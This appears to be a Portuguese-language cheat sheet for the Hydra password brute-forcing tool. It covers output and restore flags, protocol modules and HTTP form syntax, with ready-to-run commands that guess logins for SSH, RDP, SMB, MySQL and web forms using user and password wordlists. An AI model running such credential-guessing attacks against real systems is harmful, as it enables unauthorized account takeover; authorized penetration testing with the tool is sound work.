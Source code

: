 ## Entrada/saída e repetibilidade

* **`-o <arquivo>`**: grava resultados em arquivo.
* **`-R`**: retoma sessão anterior (restore).
* **`--continue`** (algumas versões): continua mesmo se encontrar hits cedo (consulte `hydra -h`).

## Módulos de protocolo (dicas rápidas)

* **SSH**: `ssh://host`
* **FTP**: `ftp://host`
* **RDP**: `rdp://host`
* **SMB**: `smb://host`
* **MySQL/Postgres**: `mysql://host`, `postgres://host`
* **HTTP(s)**:

  * **Basic/Digest/NTLM**: `http[s]-head`/`http[s]-get`/`http[s]-post` conforme o módulo.
  * **Form-based**: `http[s]-get-form` ou `http[s]-post-form`.

👉 **Dica de ouro**: use **`-U <módulo>`** para ver a **ajuda específica** do módulo.
Ex.: `hydra -U http-post-form`

## HTTP form-based (padrão do dia a dia)

Formato (módulos `http[s]-post-form` / `http[s]-get-form`):

```
"/caminho:campoUsuario=^USER^&campoSenha=^PASS^:string_que_indica_falha"
```

Exemplos:

```bash
# POST de login com string de falha "Invalid login"
hydra -l admin -P senhas.txt 192.168.1.20 \
  http-post-form "/login:username=^USER^&password=^PASS^:Invalid login" -t 6 -V

# GET form (mais raro), checando "Erro" na resposta
hydra -L users.txt -P wordlist.txt alvo.local \
  http-get-form "/auth?u=^USER^&p=^PASS^:Erro" -t 8 -f
```

Outras dicas HTTP:

* Se a **string de sucesso** for mais confiável, troque a terceira parte por ela com `S=` (ver `-U http-post-form`).
* Para **redirecionamento** após sucesso, às vezes vale usar um **regex** na terceira parte.

## Exemplos rápidos por protocolo

```bash
# SSH (threads 4, mostra cada tentativa)
hydra -L users.txt -P senhas.txt ssh://10.0.0.5 -t 4 -V

# RDP
hydra -L users.txt -P senhas.txt rdp://alvo.local -t 3 -f

# SMB
hydra -L users.txt -P senhas.txt smb://192.168.1.50 -t 6

# MySQL
hydra -L users.txt -P senhas.txt mysql://db.interno -t 6 -f

# Múltiplos alvos (arquivo com hosts)
hydra -L users.txt -P senhas.txt -M hosts.txt ssh -t 6 -F
```
